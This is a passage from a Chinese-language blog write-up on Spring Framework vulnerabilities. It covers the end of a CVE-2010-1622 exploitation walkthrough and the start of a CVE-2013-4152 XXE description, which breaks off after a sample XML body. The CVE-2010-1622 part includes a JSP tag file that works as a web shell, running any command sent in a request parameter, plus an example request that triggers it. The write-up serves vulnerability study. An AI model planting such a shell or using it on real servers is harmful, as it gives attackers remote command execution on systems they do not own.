 在文件中新加入一个tag，叫做input：

```


1.  `<tag-file>`
2.   `<name>input</name>`
3.   `<path>/WEB-INF/tags/InputTag.tag</path>`
4.   `</tag-file>`


```

InputTag.tag的内容：

```


1.  `<%@ tag dynamic-attributes="dynattrs" %>`
2.  `<%`
3.  `if (request.getParameter("kxlzxcmd")!=null)` 
4.   `exec(request.getParameter("kxlzxcmd"));` 
5.  `%>`
6.  `<form:inputkxlzx path="${dynattrs.path}"></form:inputkxlzx>`


```

访问的时候需要在参数中携带kxlzxcmd

```


1.  `/test.htm?name=kxlzx&kxlzxcmd=calc   //包含input的页面`


```

[http://blog.o0o.nu/2010/06/cve-2010-1622.html](http://blog.o0o.nu/2010/06/cve-2010-1622.html)

[https://www.inbreak.net/archives/377](https://www.inbreak.net/archives/377)

### [](#CVE-2013-4152-Spring-Framework中的XML外部实体（XXE）注入 "CVE-2013-4152 Spring Framework中的XML外部实体（XXE）注入")CVE-2013-4152 Spring Framework中的XML外部实体（XXE）注入

影响版本：3.0.0至3.2.3、4.0.0.M1

受影响版本容易受到XML外部实体（XXE）注入的攻击。该`SourceHttpMessageConverter`处理器不会禁用外部实体解析，这使远程攻击者可以读取任意文件。

当传输xml结构体时，如

```


1.  `<?xml version="1.0" encoding="ISO-8859-1"?>`
2.   `<username>John</username>`
3.  `</xml>`


```
